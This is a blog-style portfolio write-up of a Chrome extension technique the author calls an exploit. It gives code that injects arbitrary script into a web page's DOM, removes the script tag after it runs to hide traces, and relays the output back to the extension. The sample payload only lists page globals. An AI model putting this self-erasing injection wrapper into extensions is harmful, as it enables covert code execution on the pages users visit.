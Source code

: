 ```yaml
---
title: JavaScript Exploitation in Chrome V8
subtitle: Traversing execution environments and VM sandboxing.
category: Portfolio
cover: javascript-exploitation-chrome-v8.png
---
```


Shout out to my colleagues who worked with me on this project:

- [Ali Shubber](https://github.com/alishubber) - Security Engineer at T-Mobile
- [Muhammad Hussain](https://github.com/mnh78614) - UI/UX Designer, Starbucks

---

This project is many things, most importantly:
- An exploit of Chrome's browser environment and internal API
- The exploit weaponized within a chrome extension
- A system for performing automated pentesting by leveraging said exploit.

## The Exploit

Chrome is reputed as one of the most secure web browsers due to its built-in security features. Under the hood Chrome uses the [V8 Engine](https://developers.google.com/v8/) (also used by Node.js!) and spawns several separate runtime environments for each website and extension. These "[Execution Environments](https://developer.chrome.com/extensions/content_scripts#execution-environment)" are silo'd off from each other, except for [built-in methods](https://developer.chrome.com/extensions/sandboxingEval) that evaluate code after it is aggressively sanitized.

However, the sanitizer only blocks overt attempts at evaluating unsafe code, so it's possible to circumvent by abstracting out some of the evaluation logic. This can be done by leveraging the `Window.postMessage` API to add an exploit to the DOM as a self-executing script tag that deletes itself, thus `eval` never has to be used for the script to be interpreted.

It's a little complicated, but it's documented in the [project](https://github.com/RcKeller/security-extension/blob/master/extension/app/core/DOM.js#L14) and we'll go through it step by step:

### Step 1. Prepare an exploit script
**Environment:** Background Script (Chrome Extension)

Start with an exploit. Something that logs global variables outside of the vanilla JS API is a good start:

```js
/*
Name:         Get Global State
Version:      1.0
Author:       Ryan Keller
Description:  Find all unique, application-specific variables
*/
const jsAPI = ['top', 'window', 'location', 'external', 'chrome', 'document', 'inlineCSS', 'target', 'width', 'height', 'canvas', 'data', 'DOMURL', 'img', 'svg', 'ctx', 'url', 'w', 'a', 'speechSynthesis', 'webkitNotifications', 'localStorage', 'sessionStorage', 'applicationCache', 'webkitStorageInfo', 'indexedDB', 'webkitIndexedDB', 'crypto', 'CSS', 'performance', 'console', 'devicePixelRatio', 'styleMedia', 'parent', 'opener', 'frames', 'self', 'defaultstatus', 'defaultStatus', 'status', 'name', 'length', 'closed', 'pageYOffset', 'pageXOffset', 'scrollY', 'scrollX', 'screenTop', 'screenLeft', 'screenY', 'screenX', 'innerWidth', 'innerHeight', 'outerWidth', 'outerHeight', 'offscreenBuffering', 'frameElement', 'clientInformation', 'navigator', 'toolbar', 'statusbar', 'scrollbars', 'personalbar', 'menubar', 'locationbar', 'history', 'screen', 'postMessage', 'close', 'blur', 'focus', 'ondeviceorientation', 'ondevicemotion', 'onunload', 'onstorage', 'onresize', 'onpopstate', 'onpageshow', 'onpagehide', 'ononline', 'onoffline', 'onmessage', 'onhashchange', 'onbeforeunload', 'onwaiting', 'onvolumechange', 'ontimeupdate', 'onsuspend', 'onsubmit', 'onstalled', 'onshow', 'onselect', 'onseeking', 'onseeked', 'onscroll', 'onreset', 'onratechange', 'onprogress', 'onplaying', 'onplay', 'onpause', 'onmousewheel', 'onmouseup', 'onmouseover', 'onmouseout', 'onmousemove', 'onmouseleave', 'onmouseenter', 'onmousedown', 'onloadstart', 'onloadedmetadata', 'onloadeddata', 'onload', 'onkeyup', 'onkeypress', 'onkeydown', 'oninvalid', 'oninput', 'onfocus', 'onerror', 'onended', 'onemptied', 'ondurationchange', 'ondrop', 'ondragstart', 'ondragover', 'ondragleave', 'ondragenter', 'ondragend', 'ondrag', 'ondblclick', 'oncuechange', 'oncontextmenu', 'onclose', 'onclick', 'onchange', 'oncanplaythrough', 'oncanplay', 'oncancel', 'onblur', 'onabort', 'onwheel', 'onwebkittransitionend', 'onwebkitanimationstart', 'onwebkitanimationiteration', 'onwebkitanimationend', 'ontransitionend', 'onsearch', 'getSelection', 'print', 'stop', 'open', 'showModalDialog', 'alert', 'confirm', 'prompt', 'find', 'scrollBy', 'scrollTo', 'scroll', 'moveBy', 'moveTo', 'resizeBy', 'resizeTo', 'matchMedia', 'requestAnimationFrame', 'cancelAnimationFrame', 'webkitRequestAnimationFrame', 'webkitCancelAnimationFrame', 'webkitCancelRequestAnimationFrame', 'captureEvents', 'releaseEvents', 'atob', 'btoa', 'setTimeout', 'clearTimeout', 'setInterval', 'clearInterval', 'TEMPORARY', 'PERSISTENT', 'getComputedStyle', 'getMatchedCSSRules', 'webkitConvertPointFromPageToNode', 'webkitConvertPointFromNodeToPage', 'webkitRequestFileSystem', 'webkitResolveLocalFileSystemURL', 'openDatabase', 'addEventListener', 'removeEventListener', 'dispatchEvent']
let globals = {}
Object.keys(window).forEach((global) => {
  if (jsAPI.includes(global) === false) {
    globals[global] = global
  }
})
RETURN(globals)
```

This needs to be recorded as a string, to avoid escaping everything, use [raw string literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/raw).

```js
//  ES6 black magic
String.raw`console.log('no',"need",`to`,'escape',"anything")`;
```

### Step 1: Wrap the exploit as a browser event
**Environment:** Background Script (Chrome Extension)

We can circumvent using `eval`, which is sanitized, by creating `<script>` tags in the DOM itself. To make our exploit even more discrete, we're going to wrap the malicious script with code that creates a self-executing function that deletes itself once it runs. Crafty.

Save this function as another raw string:

```js
function RAW_DOM_INJECTION (script = {}) {
  return new Promise((resolve, reject) => {
    try {
      /* EXECUTION ENVIRONMENT: RAW DOM -> CONTENT SCRIPT */
      window.addEventListener(script.id, (e) => {
        /* EXECUTION ENVIRONMENT: CONTENT SCRIPT -> BACKGROUND (EXTENSION) */
        const { detail } = e
        resolve(detail)
      }, { once: true })
      /* EXECUTION ENVIRONMENT: CONTENT SCRIPT -> RAW DOM */
      const element = document.createElement('script')
      element.textContent = '(async function () {' +
        'const execution = () => new Promise((RETURN, ERROR) => { ' + script.code + ' });' +
        'let response = await execution();' +
        'var event = document.createEvent("CustomEvent");' +
        'event.initCustomEvent("' + script.id + '", true, true, response);' +
        'window.dispatchEvent(event);' +
      '})();';
      /* EXECUTION ENVIRONMENT: CONTENT SCRIPT -> RAW DOM */
      (document.head || document.documentElement).appendChild(element)
      element.parentNode.removeChild(element)
    } catch (ERROR) {
      console.error(ERROR)
      resolve({ ERROR })
    }
  })
}
```

You may wonder why we're wrapping this as an event - this is so we can listen for the output of the script! Our background scripts run in a different VM environment so we can't access the return values of scripts running in the page, BUT we can listen for an event with a unique ID and intercept output that way!

### Step 2. Execute the script through Chrome APIs

Use the native chrome API methods like `chrome.tabs.executeScript` or `chrome.tabs.executeScriptAsync` (if your script returns a promise) to evaluate the wrapped exploit [like so](https://github.com/RcKeller/security-extension/blob/master/extension/app/ducks/pages.js#L56), and watch the magic happen.

Here's everything that happens in chronological order:

- The extension creates events using the content script environment, which has DOM access.
- Background sends a script for execution
- The content script defines an event listener based on the script ID
- A script tag wrapping the exploit is made
  - It wraps the function, ideally with a promise
  - Create and dispatch an event listener, passing the promise a return value
- Inject the script, which executes immediately
- Remove the script tag to hide the evidence.
- Function executes in RAW DOM, dispatches event, then falls out of scope. Poof.
- Event listener passes a message back the the BACKGROUND, our extension.

Voila! The exploit should run successfully, and delete any trace of its being there.

## Conclusion

By exploiting what we know about Chrome security and the V8 engine, we can effectively traverse environments using internal APIs in a unique and creative way. This attack requires a consenting user running our scripts as a chrome extension, and isn't a viable attack for unsuspecting users. Rather, it's best used by the informed as a penetration testing tool. I use this exploit to perform static analysis of websites as I browse the web.

This exploit and the weaponized extension are all open source and will never be for-profit, and I highly encourage you to check it out on [my GitHub](https://github.com/RcKeller/security-extension) and contribute if you're interested!
